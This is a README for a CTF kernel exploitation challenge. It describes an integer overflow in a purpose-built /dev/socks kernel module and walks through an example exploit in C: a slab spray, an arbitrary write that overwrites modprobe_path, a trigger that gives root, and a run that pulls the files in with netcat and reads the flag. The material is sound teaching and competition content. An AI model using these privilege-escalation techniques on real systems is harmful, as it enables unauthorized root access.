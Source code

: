 # Kernel exploitation challenge for r2ctf

## Package contents

This package contains the following things:

* The kernel module source is in `module/`.

* The files to provide to the participants can be found in `challenge_v1_pub/`

* The files to run in the production server can be found in `challenge_v1_prod/`. WARNING: These files contain the actual flag and should NOT be available to participants in any way except than through a TCP/IP connection to the challenge console.

* An example exploit is provided in `exploit/`.

## Challenge description

You can put something like this:

```
r2 has new socks, and they are in kernel land! Pwn the kernel in this challenge and read the flag off `/flag.txt`.
```

Or whatever you can think of :)


## Challenge setup

The challenge is provided as a VM image that boots into a limited shell.

The objective of the challenge is to root the image by exploiting a bug in the `/dev/socks` kernel module (or a Linux kernel bug for that matter).

Once rooted, the flag can be read off `/flag.txt`

## The bug

The kernel module contains an integer overflow during allocation:

```c
static long socks_ioctl_init(sock_t *sock, unsigned long arg) {
    uint64_t size = arg + sizeof(sock_buf_t);
    sock_buf_t *buf = NULL;
    int err = 0;

    // Sanity check without locking the buffer.
    if (size > MAX_SIZE) {
        return -EINVAL;
    }

    // First off: lock the buffer

    spin_lock(&sock->lock);

    if (sock->state != UNINITIALIZED) {
        err = -EINVAL;
        goto out_unlock;
    }

    buf = kzalloc(size, GFP_KERNEL);
    printk(KERN_ALERT "Allocated ptr %llx\n", buf);

    if (IS_ERR_OR_NULL(buf)) {
        err = (buf ? PTR_ERR(buf) : -ENOMEM);
        goto out_unlock;
    }

    sock->buf = buf;
    sock->buf->size = size - sizeof(sock_buf_t);
    sock->buf->write_index = 0;
    sock->buf->read_index = 0;
    sock->buf->buffer = (unsigned char *)buf + sizeof(sock_buf_t); // Buffer is inline

    sock->state = INITIALIZED;
```

Since the buffer data is inline with the `sock_buf_t` structure, the integer overflow means we can corrupt arbitrary data in the heap by sending data to the socket.

## Exploit

The exploit first creates a number of sockets of size 0x20 to exhaust the slab cache and make sure they are contiguous.

Then it makes the next two sockets, one of which is overflown, and connects them:

```c
	for(int i=0; i < 0x400 - 0x10; i++) {
		// Open a bunch of size 0 (alloc size should be 0x20)
		int fd = open("/dev/socks", O_RDONLY);
		sock_init(fd, 0x0);
	}
	/* Let's have two socks */

	int fd1 = open("/dev/socks", O_RDONLY);
	int fd2 = open("/dev/socks", O_RDONLY);
	

	sock_init(fd1, -1);
	sock_listen(fd1, "test_socket");
	sock_init(fd2, 0x00);
	sock_connect(fd2, "test_socket");
```

At this point, sending data through `fd2` will write to the buffer corresponding to `fd1`. Since they are consecutive in memory, this means we overlfow the `sock_buf_t` for `fd2`.

The exploit uses this to setup a `sock_buf_t` that points to `modprobe_path` and set that variable to `/home/user/pwn.sh`:

```c

	/* Send to fd1 => corrupt buffer size and pointer of fd2 */
	
	sock_buf_t buf;
	buf.size = 0x100;
	buf.buffer = 0xffffffff82023ae0L; // modprobe path
	buf.read_index = 0x00;
	buf.write_index = 0x00;
	sock_send(fd2, &buf, sizeof(buf));

	/* NOW THIS PERFORMS ARBITRARY WRITE */
	char pwn[] = "/home/user/pwn.sh";
	sock_send(fd1, pwn, sizeof(pwn));
```

Finally the exploit triggers the use of `modprobe_path` by trying to create an SCTP socket:

```
socket(AF_INET,SOCK_STREAM,132);
```

This makes the kernel run `/home/user/pwn.sh` as root.

## Example run

Since the Qemu image has networking enabled, we can test it by just using 
netcat to pull the exploit files from the host:

```
$ nc 10.0.2.2 1234 > pwn.sh
~ $ nc 10.0.2.2 1234 > exploit
~ $ chmod 700 *
~ $ ./exploit 
[*] Trying to listen in test_socket
[*] Trying to connect to test_socket
~ $ ls
exploit   flag.txt  pwn.sh
~ $ cat flag.txt 
r2con{06e6ec5e2653a51e6e383ee4776a6670}
```

## Running in production

To run in production, simply launch `run.sh` through e.g. a `xinetd` service.

See for example this:

https://github.com/OpenToAllCTF/OTA-University/tree/master/challenge_templates/pwn
